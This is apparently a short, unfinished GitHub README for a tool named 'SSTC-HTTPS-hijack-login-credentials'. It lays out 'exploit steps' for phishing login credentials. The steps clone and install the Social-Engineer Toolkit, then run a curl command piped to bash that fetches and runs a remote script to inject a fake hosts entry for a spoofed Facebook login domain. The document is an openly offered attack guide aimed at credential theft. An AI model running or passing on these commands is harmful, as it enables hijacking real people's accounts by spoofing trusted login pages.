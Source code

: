# WARNING: This is a development project and is not READY for USING ;)
- BR
------------------------------------------------------------------------------------------
# SSTC-HTTPS-hijack-login-credentials Usage
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/blob/master/logo/https_image-620x499.jpg)

# Exploit steps:
1. - Installing requirements


2. - Preparing packages
For other Linux distro attackers
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
// For kali 
```bash 
setoolkit
```

3. - Creating hosts exploit facebook.login.com
- For Linux
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/master/Attacker/hosts_fake_inject/fakehost.sh | bash
```



